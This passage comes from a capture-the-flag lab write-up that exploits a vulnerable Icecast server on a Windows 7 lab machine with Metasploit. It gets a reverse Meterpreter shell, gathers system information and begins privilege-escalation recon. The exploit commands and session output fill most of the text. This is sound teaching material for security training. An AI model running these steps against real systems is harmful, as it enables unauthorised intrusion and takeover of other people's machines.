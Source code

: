    Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.1.21     yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port
```

First let's check that the LHOST option is set to our tun0 IP (which can be found on the access page). With that done, let's set that last option to our target IP. Now that we have everything ready to go, let's run our exploit using the command `exploit`

```
msf6 exploit(windows/http/icecast_header) > set lhost 10.6.46.243
lhost => 10.6.46.243
msf6 exploit(windows/http/icecast_header) > set rhosts 10.10.142.23
rhosts => 10.10.142.23
msf6 exploit(windows/http/icecast_header) > exploit

[*] Started reverse TCP handler on 10.6.46.243:4444 
[*] Sending stage (175174 bytes) to 10.10.142.23
[*] Meterpreter session 1 opened (10.6.46.243:4444 -> 10.10.142.23:49212) at 2021-05-24 11:39:49 -0400

meterpreter > 
```

## Task 4 Escalate
---

Q: What is the name of the shell we have?

A: meterpreter

Q: What user was running that Icecast process? The commands used in this question and the next few are taken directly from the 'RP: Metasploit' room.

A: Dark
```
meterpreter > getuid
Server username: Dark-PC\Dark
```
Q: What build of Windows is the system?

A: 7601

```
meterpreter > sysinfo
Computer        : DARK-PC
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
```

Q: Now that we know some of the finer details of the system we are working with, let's start escalating our privileges. First, what is the architecture of the process we're running?

A: x64

Q: Now that we know the architecture of the process, let's perform some further recon. While this doesn't work the best on x64 machines, let's now run the following command `run post/multi/recon/local_exploit_suggester`. *This can appear to hang as it tests exploits and might take several minutes to complete*

```